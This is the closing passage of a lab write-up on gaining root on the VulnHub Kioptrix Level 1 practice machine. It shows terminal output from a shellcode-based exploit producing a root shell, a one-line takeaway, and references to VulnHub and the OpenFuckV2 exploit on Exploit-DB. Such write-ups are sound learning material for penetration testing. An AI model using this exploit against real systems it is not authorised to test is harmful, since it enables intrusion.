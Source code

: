 ```bash

gcc: file path prefix `/usr/bin' never used
[+] Attached to 6316
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...


id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root

```

And there we get direct access as `root`!

## Some Key Points to Take Away

1. Always look for vulnerabilities associated with various services running on the machine.



## References

1. VulnHub - Kioptrix Level 1: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/
2. OpenFuckV2: https://www.exploit-db.com/exploits/47080